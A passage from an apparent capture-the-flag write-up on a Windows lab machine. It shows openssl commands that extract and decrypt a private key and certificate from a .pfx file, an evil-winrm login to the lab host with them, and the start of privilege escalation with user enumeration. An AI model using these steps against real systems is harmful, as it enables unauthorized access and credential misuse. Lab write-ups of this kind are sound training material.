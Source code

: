 Now let's Extract **.key** and **.crt** from **.pfx** file because SSL certificate (Public Key) and corresponding Private key are stored in **.pfx** file which is encrypted and unreadable. For better understanding give a it a look. [here](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) 

```shell
# Extract Key file
$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:

# Extract Certificate File.
$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out crt.crt
Enter Import Password:

# Decrypting the Key
$ openssl rsa -in key.key -out dec_key.key
Enter pass phrase for key.key:
writing RSA key
```

## Evil-Winrm

**Evil-winrm** provide us ability to login into account using the private and the public key. **WinRM** (Windows Remote Management) is the Microsoft implementation of **WS-Management** Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.
This program can be used on any Microsoft Windows Servers with this feature enabled (usually at port **5985**), of course only if you have credentials and permissions to use it. So we can say that it could be used in a post-exploitation **hacking/pentesting** phase. The purpose of this program is to provide nice and easy-to-use features for hacking. It can be used with legitimate purposes by system administrators as well but the most of its features are focused on hacking/pentesting stuff.

```powershell
evil-winrm -i 10.10.11.152  -c crt.crt -k key.key -u -p  -S
                                        
Info: Establishing connection to remote endpoint
Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```

# Privilege Escalation

As when we get shell into a windows domain machine, the very first thing come in our brain is to check the valid user's accounts that are running in the Domain environment and we found only six valid user account's.

```powershell
C:\Users\legacyy\Documents> net user
Enter PEM pass phrase:
User accounts for \\
-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
The command completed with one or more errors.
```
